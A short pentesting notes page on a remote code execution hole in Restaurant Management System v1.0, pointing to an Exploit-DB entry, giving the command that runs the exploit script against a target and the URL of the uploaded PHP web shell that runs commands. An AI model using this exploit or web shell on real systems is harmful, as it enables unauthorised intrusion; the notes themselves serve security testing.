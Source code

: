 ```yaml
---
title: Restaurant Management System (RMS) Pentesting
description:
tags:
    - Web
refs:
date: 2023-01-29
draft: false
---
```


## Remote Code Execution (RCE) v1.0

See the [Exploit-DB](https://www.exploit-db.com/exploits/47520) for details.

```bash
python3 rms-rce.py https://example.com/rms/
```

When uploading successfully, we can access to https://example.com/rms/images/reverse-shell.php?cmd=id
